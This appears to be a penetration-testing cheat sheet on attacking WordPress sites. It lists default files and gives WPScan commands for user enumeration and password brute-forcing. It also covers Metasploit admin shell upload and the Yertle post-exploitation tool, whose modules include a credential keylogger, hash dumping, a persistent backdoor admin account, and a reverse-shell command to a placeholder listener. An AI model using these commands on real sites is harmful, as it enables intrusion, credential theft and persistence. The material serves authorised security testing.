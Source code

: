 # Web applications - CMS WordPress

### Overview

WordPress is a free and open-source content management system (CMS) developed by
the WordPress.org foundation and based on PHP and MySQL.

WordPress is, by far, the most popular website management system in use with a
CMS market share of nearly sixty percent and used by more than 60 million
websites, including 30.6% of the top 10 million websites as of April 2018.

WordPress' plugin architecture allows users to extend the features and
functionality of a website or blog. As of March 2017, WordPress has over
55,286 plugins available.

### WordPress default URL

The following files and directories can be found on a default installation of
WordPress:

```
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-app.php
wp-atom.php
wp-blog-header.php
wp-comments-post.php
wp-commentsrss2.php
wp-config-sample.php
wp-content
wp-cron.php
wp-feed.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-pass.php
wp-rdf.php
wp-register.php
wp-rss2.php
wp-rss.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
...
```

Refer to the SecLists' `Discovery/Web-Content/CMS/wordpress.fuzz.txt` wordlist
for a more exhaustive list of URL.

### WPScan

WPScan is a well-known vulnerability scanner written in Ruby for WordPress
which focus on vulnerabilities in WordPress core, themes, and plugins.

The WPScan vulnerability database is public and count, as of December 2018,
11665 vulnerabilities. The database is hosted on the following host:

```
https://wpvulndb.com/
```

Usage:

```
# Update the WordPress Core, themes and plugins vulnerability database
wpscan --update

wpscan --url <URL>

# Enumerate installed plugins | themes | users | timthumbs
wpscan --url <URL> --enumerate < p | t | u | tt >

# Wordlist password brute force on enumerated users using 50 threads
wpscan --url <URL> --wordlist <WORDLIST_PASSWORDS> --threads 50

# Wordlist usernames and password brute force using 50 threads
wpscan <URL> [--username <USERNAME> | --usernames <WORDLIST_USERNAMES>] --wordlist <WORDLIST_PASSWORDS> --threads 50

# Multiple targets scan (all plugins, all themes, config backups, db exports, user enumeration, and password bruteforce) using using interlace.
echo 'wpscan --disable-tls-checks --rua --force --max-threads 50 -e ap,at,cb,dbe,u,m --plugins-detection aggressive --detection-mode aggressive --passwords <PASSWORD_WORDLIST> -o _output_/_cleantarget_-wpscan.txt --url _target_' > wordpress_cmd.txt
interlace -tL <WORDPRESS_HOSTS_FILE> -o <OUTPUT_DIRECTORY> -cL wordpress_cmd.txt
```

### Administrator to RCE

The tools presented below require valid WordPress administrator credentials.

###### Metasploit

The `Metasploit` module `exploit/unix/webapp/wp_admin_shell_upload` can be used
to generate a plugin packed with a `Metasploit` payload and upload it to the
WordPress server.

```
msf> use exploit/unix/webapp/wp_admin_shell_upload
```

###### WPForce Yertle

Part of the `WPForce` suite of Wordpress attack tools, `Yertle` is a WordPress
post-exploitation python script.

The following modules are implemented:

```
beef            Injects a BeEF hook into website
dbcreds         Prints the database credentials
exit            Terminate the session
hashdump        Dumps all WordPress password hashes
help            Help menu
keylogger       Patches WordPress core to log plaintext credentials
keylog          Displays keylog file
meterpreter     Executes a PHP meterpreter stager (php/meterpreter/reverse_tcp) to connect to metasploit
persist         Creates an admin account that will re-add itself
quit            Terminate the session
shell           Sends a TCP reverse shell to a netcat listener
stealth         Hides Yertle from the plugins page
```

Usage:

```
# Bind OS shell including the modules above
python yertle.py -u <USERNAME> -p <PASSWORD> -t <URL> -i
os-shell> help | hashdump | persist | whoami | ...

# Reverse OS shell - works with a netcat listener
python yertle.py -u <USERNAME> -p <PASSWORD> -t <URL> -r -li <LHOST> -lp <LPORT>
```
